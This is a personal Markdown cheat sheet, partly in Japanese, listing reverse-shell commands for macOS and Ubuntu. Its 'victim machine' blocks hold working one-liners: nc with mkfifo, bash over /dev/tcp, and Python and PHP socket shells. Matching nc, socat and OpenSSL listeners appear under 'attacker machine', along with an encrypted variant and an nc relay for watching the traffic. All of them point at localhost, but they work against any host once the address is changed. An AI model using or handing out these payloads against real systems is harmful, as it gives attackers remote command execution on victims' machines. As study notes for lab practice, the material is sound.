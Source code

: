 # reverse shell

* [Reverse Shell \(リバースシェル\) 入門 & 実践 \- 好奇心の足跡]( https://kusuwada.hatenablog.com/entry/2019/10/30/044325 )

## darwin
* [macos \- Create reverse shell using High Sierra? \- Ask Different]( https://apple.stackexchange.com/questions/324824/create-reverse-shell-using-high-sierra )

### attacker machine
```
nc -nvl 8080
```

### victim machine
```
mkfifo myfifo
nc 127.0.0.1 8080 < myfifo | /bin/bash -i > myfifo 2>&1
rm -f myfifo
```

## ubuntu
### attacker machine
```
nc -nvlp 8080
```

```
socat tcp-listen:8080,reuseaddr,fork stdout
```

### victim machine
```
bash -i >& /dev/tcp/localhost/8080 0>&1
```

## common
### attacker machine
WIP

### victim machine
```
python -c 'import sys,socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((sys.argv[1],int(sys.argv[2])));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' 127.0.0.1 8080
```

```
php -r '$sock=fsockopen($argv[1],intval($argv[2]));exec("/bin/bash -i <&3 >&3 2>&3");' 127.0.0.1 8080
```

## FYI
* [PayloadsAllTheThings/Reverse Shell Cheatsheet\.md at master · swisskyrepo/PayloadsAllTheThings]( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md?source=post_page-----c7598145282d---------------------- )
* `source`: [ersh\.py: a pure Python encrypted reverse shell \| Borderline]( https://blog.kwiatkowski.fr/?q=en/ersh )

## secure

[OpenSSLでReverse Shellの通信を暗号化する\(\+"Ctrl\+C"の対応\) \| 俺的備忘録 〜なんかいろいろ〜]( https://orebibou.com/2019/07/openssl%E3%81%A7reverse-shell%E3%81%AE%E9%80%9A%E4%BF%A1%E3%82%92%E6%9A%97%E5%8F%B7%E5%8C%96%E3%81%99%E3%82%8B%E3%82%AD%E3%83%BC%E3%83%90%E3%82%A4%E3%83%B3%E3%83%89%E5%AF%BE%E5%BF%9C/ )

* 通信内容はsecureだが，通信相手が正しいとはわからない

### attacker machine
```
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 3650 -nodes
# Country Name (2 letter code) []: US
# Common Name (eg, fully qualified host name) []:www.localhost.com
openssl s_server -quiet -key key.pem -cert cert.pem -port 8080
```

```
reshepy localhost:8080
```


`socat` version
```
socat $(tty),raw,echo=0 openssl-listen:8080,reuseaddr,cert=cert.pem,key=key.pem,verify=0
```

at darwin
`stty: stdin isn't a terminal`

* [OpenSSL: How to create a certificate with an empty subject? \- Stack Overflow]( https://stackoverflow.com/questions/26058406/openssl-how-to-create-a-certificate-with-an-empty-subject )
* [x509 \- OpenSSL: How to create a certificate with an empty subject DN? \- Super User]( https://superuser.com/questions/512673/openssl-how-to-create-a-certificate-with-an-empty-subject-dn )

### victim machine
```
mkfifo /tmp/p;bash -i < /tmp/p 2>&1 | openssl s_client -quiet -connect 127.0.0.1:8080 > /tmp/p;rm -f /tmp/p
```

----

## port forwarding
下記のコマンドを`attacker`のlocalで動作させれば通信内容を見ることができる
`localhost:8081`->`127.0.0.1:8080`
```
mkfifo fifo
while true ; do nc -l 8081 < fifo | tee /dev/stderr | nc 127.0.0.1 8080 | tee /dev/stderr > fifo; done
rm -f fifo
```

----

## NOTE
* `attacker`と`victim`のコマンドの組み合わせは基本的に自由
* macでは`/dev/tcp/xxx`や`/dev/udp/xxx`などは利用できない
* attackerで`nc`を利用して待ち受けている場合は`ctrl-c`で`nc`が終了してしまう
  * `socat`を利用すればよいが，macには存在しない
* 通常は非暗号化状態で通信
* 接続直後に画面が乱れた場合には`stty sane`
